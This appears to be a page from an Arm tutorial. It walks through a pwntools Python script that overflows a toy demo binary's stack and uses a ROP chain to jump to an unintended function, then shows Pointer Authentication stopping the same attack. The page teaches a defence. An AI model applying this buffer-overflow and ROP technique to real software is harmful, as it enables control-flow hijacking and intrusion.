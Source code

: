 ```yaml
---
# User change
title: "Exploit applications built without Pointer Authentication instructions"

weight: 4 # 1 is first, 2 is second, etc.

# Do not modify
layout: "learningpathall"
---
```

## Prerequisites

Install [pwntools](https://github.com/Gallopsled/pwntools) and its dependencies. You will use this exploit development library to demonstrate how you can exploit the application built in the previous section without pointer authentication.
 
```console
sudo apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev -y
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```
## Exploit the application

Create `exploit.py` with the following to attack the `main_nopac` application, and cause `func2()` to be executed.

```python
#!/usr/bin/env python3

from pwn import *

context(os='linux', arch='aarch64')

binary = ELF('./main_nopac')

rop = ROP(binary)

padding = b'A' * 24

rop.call(binary.symbols['func2']) # return to func2

print(rop.gadgets)
log.info("ROP chain:\n" + rop.dump())

print(rop.chain())
data = padding + rop.chain()
print(data)
data = data.replace(b'\0',b'')

print(data)
r = process(['./main_nopac', data])

r.interactive()
```
If necessary, make the script executable.
```console
chmod +x ./exploit.py
```
## Run exploit.py on main_nopac

Run the script which exploits `main_nopac`:

```console
./exploit.py
```

Which should result output similar to the following:
```output
[*] '/home/ubuntu/pac/main_nopac'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loading gadgets for '/home/ubuntu/pac/main_nopac'
{4194964: Gadget(0x400294, ['ret'], [], 0x8), 4257924: Gadget(0x40f884, ['ret', 'ret'], [], 0x10)}
[*] ROP chain:
    0x0000:         0x4006f8 0x4006f8()
b'\xf8\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xf8\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xf8\x06@'
[+] Starting local process './main_nopac': pid 4585
[*] Switching to interactive mode
Hello World!
Hello from func2!
$
```
You have successfully altered execution flow of the program and jumped to address `0x4006f8` (`func2`).

You will be in an interactive shell prompt whilst still inside the application:
```output
$ ls
Makefile  exploit.py  main.c  main_nopac  main_pac
$
```
Use `Ctrl+C` to exit the shell, and hence the `main_nopac` application.
```output
[*] Interrupted
[*] Stopped process './main_nopac' (pid 4618)
```

## Attempt to exploit main_pac

Replace the arguments in the script using `sed`. This saves a new file `exploit_pac.py`:
```console
sed 's/main_nopac/main_pac/g' exploit.py > exploit_pac.py
chmod +x exploit_pac.py
```
Now execute `exploit_pac.py`
```console
./exploit_pac.py
```
The script attempts the same attack:
```output
[*] '/home/ubuntu/pac/main_pac'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loading gadgets for '/home/ubuntu/pac/main_pac'
{4194964: Gadget(0x400294, ['ret'], [], 0x8), 4257988: Gadget(0x40f8c4, ['ret', 'ret'], [], 0x10)}
[*] ROP chain:
    0x0000:         0x4006fc 0x4006fc()
b'\xfc\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xfc\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xfc\x06@'
[+] Starting local process './main_pac': pid 4605
[*] Switching to interactive mode
Hello World!
[*] Got EOF while reading in interactive
$
```
When you attempt to use the shell prompt you generate a `SIGSEGV` exception instead, and the application terminates.
```output
$ ls
[*] Process './main_pac' stopped with exit code -11 (SIGSEGV) (pid 4605)
[*] Got EOF while sending in interactive
```
This demonstrates how the Armv8.3-A Pointer Authentication feature provides protection against software attacks.
